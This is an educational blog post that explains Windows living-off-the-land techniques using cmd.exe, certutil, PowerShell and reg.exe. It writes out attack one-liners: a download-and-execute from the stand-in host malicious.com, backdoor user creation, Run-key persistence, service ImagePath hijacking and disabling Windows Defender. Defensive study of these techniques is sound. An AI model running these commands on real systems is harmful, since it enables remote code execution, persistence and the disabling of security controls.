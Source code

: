```yaml
---
title: "A-Few-Living-Off-The-Land-Binaries-and-Techniques-0903eefd1c33"
date: 2024-03-26
layout: post
categories: medium
---
```



A Few Living-Off-The-Land Binaries and Techniques
=================================================


Living off the Land (LOTL) Binaries, Windows

---

### A Few Living-Off-The-Land Binaries and Techniques

#### Living off the Land (LOTL) Binaries, Windows

![](/assets/images/10btGIciM2lFvwZTYlH5t6w.png)

Courtesy of DALL-E, prompt provided by [Grant Wilsey](https://medium.com/u/36c9d68fafd8)

When it comes to avoiding detection and maintaining access to a newly hacked system, attackers can become very resourceful. They will often employ techniques that leverage existing system tools on the system to remain hidden, maintain persistence, escalation privileges and exfiltrate data from the target. One such strategy is known as “Living off the Land” (LOTL), where attackers utilize legitimate binaries already present on the target system to execute malicious activities, making it harder for traditional security solutions to detect their actions. I’m interested in learning more about Living-off-the-land techniques, so in this blog post we’ll explore the concept of LOTL binaries and showcase a few simple examples that exploit native Windows capabilities.

### Understanding LOTL Binaries

LOTL binaries refer to legitimate executables found on operating systems that attackers repurpose for malicious activities. These binaries are part of the operating system’s standard toolkit and are trusted by security mechanisms, making them ideal for stealthy attacks. By leveraging LOTL binaries, attackers can evade detection and blend in with normal system operations, making it challenging for security analysts to identify their malicious activities.

#### A Few Examples of Living-Off-The-Land Binaries

#### 1. cmd.exe

`cmd.exe`is the standard command-line interpreter on Windows systems. Attackers can abuse this binary for various malicious purposes, such as executing commands, downloading files, or launching other processes. I gather several examples of how cmd.exe can be misused, or rather used with normal functionality except with malicious intent:

**Example 1: Command Execution**

```
cmd.exe /c net user hacker P@ssw0rd123 /add
```

In this example, an attacker that already likely has administrator privileges creates a new user account named “darkyolks” with the password “P@ssw0rd123” using the `net user` command executed via `cmd.exe`. This is a simple way yet effective way that adversaries use native features within Windows environments to maintain persistence.

![](/assets/images/13eGihN7zYK51S0HjGHWq1g.png)

Successful user creation via cmd.exe

![](/assets/images/1FRUnF4LCq2GAZnM8l55Uwg.png)

Denied user creation due to invalid privileges.

Proper logging set up for **Windows Event ID 4720** — “A User was created” is one way to detect this type of persistence.

**Example 2: Downloading Files**

```
cmd.exe /c powershell.exe -c “Invoke-WebRequest -Uri http://malicious.com/malicious.exe -OutFile C:\Temp\malicious.exe”
```

Here, the attacker uses `cmd.exe` to invoke **PowerShell** and download a malicious executable from a remote server. `powershell.exe` and `certutil.exe` are LOTL binaries themselves. Malicious.com/malicious.exe is quite suspicious.

#### 2. certutil.exe

`certutil.exe` is a command-line utility for managing digital certificates in Windows. While primarily used for legitimate purposes, attackers can abuse **certutil.exe** for file decoding/encoding and data exfiltration.

**Example 1: Data Exfiltration**

```
certutil.exe -urlcache -split -f http://malicious.com/secret.txt C:\Temp\secret.txt
```

In this example, the attacker uses `certutil.exe` to download a file (secret.txt) from a remote server and save it to the local system.

**Example 2: Encoding and Decoding Files with certutil.exe**

Another trick is using `certutil.exe` for encoding and decoding files, which can obfuscate malicious payloads to evade detection. Here's how you can encode a file:

```
certutil -encode payload.exe encoded_payload.txt
```

To decode the encoded file:

```
certutil -decode encoded_payload.txt decoded_payload.exe
```
#### 3. powershell.exe

`powershell.exe`is a powerful scripting environment built into Windows systems. Attackers commonly abuse PowerShell for various malicious activities, including command execution, file manipulation, and lateral movement. This binary will work similar to `cmd.exe`, as shown in previous examples when PowerShell was called via the command line.

**Example: Command Execution**

```
powershell.exe -ExecutionPolicy Bypass -Command “& {Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://malicious.com/script.ps1')}"
```

Similar to the `cmd.exe` example, an attacker uses `powershell.exe` to bypass execution policies then download and execute a malicious PowerShell script (script.ps1) from a remote server.

#### 4. reg.exe

`reg.exe` is a built-in Windows utility designed to manipulate the system registry. The system registry a hierarchical database that stores configuration settings and options on Microsoft Windows operating systems. Attackers may abuse `reg.exe` to modify registry keys related to system configurations, user settings, or installed software. By altering these keys, they can achieve persistence, escalate privileges, or even disable security mechanisms.

**Example 1: Achieving Persistence**  
`reg.exe` provides attackers with a convenient way to establish persistence by adding entries to the Windows registry that execute their malicious payloads during system startup.  
Example:

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousProgram /t REG_SZ /d “C:\Malware\malware.exe” /f
```

In this example, the attacker uses `reg.exe` to add a registry entry under the current user’s `Run` key. This entry specifies the path to the malicious executable (malware.exe), ensuring that it runs every time the user logs in.

**Example 2: Escalating Privileges**

Privilege escalation is another common goal for attackers, as it grants them higher levels of access to the system and potentially allows them to execute more impactful attacks. The binary `reg.exe` can be exploited to escalate privileges by manipulating registry keys associated with system services or user accounts.

```
  
reg add “HKLM\SYSTEM\CurrentControlSet\Services\SomeVulnerableService” /v ImagePath /t REG_EXPAND_SZ /d “C:\Malware\malware.exe” /f
```

In this scenario, the attacker modifies the ‘*ImagePath’* value of a vulnerable system service using `reg.exe`. By replacing the legitimate service executable with their malicious payload (malware.exe), they can execute arbitrary code with elevated privileges the next time the service starts.

**Example 3: Disabling Security Software**

Attackers often seek to disable or bypass security software installed on the compromised system to evade detection and maintain their foothold. The binary `reg.exe` provides attackers with the ability to modify registry keys related to security software settings or configurations.

```
reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender” /v DisableAntiSpyware /t REG_DWORD /d 1 /f  
  

```

This command adds a registry key `DisableAntiSpyware` under `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender` and sets its value to `1`, which effectively disables Windows Defender permanently.

![](/assets/images/14Gcm4MXLkloUHAptSBmtWA.png)

Disabling Windows Defender with reg.exe via command line.

This screenshot shows the command executing successfully. Note the user running the command needs to be running with administrator privileges in order to make changes to the registry. An attacker may have already escalated their privileges to modify the registry at this stage of their attack.

### Conclusion

Living off the land binaries pose a significant challenge for defenders due to their legitimate nature and widespread use. By understanding the differences of legitimate binaries and malicious ones, analysts are tasked with triaging the events and piecing together the actions taken post-compromise. This essential skills protects

By adopting a proactive approach to security and leveraging threat intelligence, organizations can stay one step ahead of cyber adversaries and mitigate the risks associated with living off the land attacks.

For further research and exploration of LOTL binaries, the [LOLBAS project](https://lolbas-project.github.io/) provides a comprehensive repository of common LOTL binaries and their respective use cases in offensive security scenarios.



By [Grant Wilsey](https://medium.com/@darkyolks) on [March 26, 2024](https://medium.com/p/0903eefd1c33).

[Canonical link](https://medium.com/@darkyolks/a-look-into-lotl-binaries-and-techniques-0903eefd1c33)

Exported from [Medium](https://medium.com) on December 27, 2024.

